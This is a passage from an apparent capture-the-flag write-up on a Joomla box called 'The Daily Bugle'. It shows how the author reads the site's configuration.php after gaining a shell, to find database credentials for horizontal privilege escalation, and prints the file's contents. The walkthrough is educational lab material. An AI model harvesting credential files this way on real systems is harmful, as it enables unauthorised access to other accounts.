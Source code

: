 
## Horizontal user privilege escalation

So we have to figure out another method. If we remember from our webserver enumeration, we ran a `gobuster` scan and brute forced on file extensions too. Which revealed that there is a `configuration.php` file. That's a configuration file for the `Joomla` Content Management System. Which probably hold valuable information such as database credentials.

````commandline
bash-4.2$ cd /var/www/html/
bash-4.2$ ls
LICENSE.txt    cli                includes   media       tmp
README.txt     components         index.php  modules     web.config.txt
administrator  configuration.php  language   plugins
bin            htaccess.txt       layouts    robots.txt
cache          images             libraries  templates
````

And here is the content of the configuration file.

````commandline
bash-4.2$ cat configuration.php 
<?php
class JConfig {
        public $offline = '0';
        public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
        public $display_offline_message = '1';
        public $offline_image = '';
        public $sitename = 'The Daily Bugle';
        public $editor = 'tinymce';
        public $captcha = '0';
        public $list_limit = '20';
        public $access = '1';
        public $debug = '0';
        public $debug_lang = '0';
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'root';
        public $password = 'REDACTED';
        public $db = 'joomla';
        public $dbprefix = 'fb9j5_';
        public $live_site = '';
        public $secret = 'UAMBRWzHO3oFPmVC';
        public $gzip = '0';
        public $error_reporting = 'default';
        public $helpurl = 'https://help.joomla.org/proxy/index.php?keyref=Help{major}{minor}:{keyref}';
        public $ftp_host = '127.0.0.1';
        public $ftp_port = '21';
        public $ftp_user = '';
        public $ftp_pass = '';
        public $ftp_root = '';
        public $ftp_enable = '0';
        public $offset = 'UTC';
        public $mailonline = '1';
        public $mailer = 'mail';
        public $mailfrom = 'jonah@tryhackme.com';
        public $fromname = 'The Daily Bugle';
        public $sendmail = '/usr/sbin/sendmail';
        public $smtpauth = '0';
        public $smtpuser = '';
        public $smtppass = '';
        public $smtphost = 'localhost';
        public $smtpsecure = 'none';
````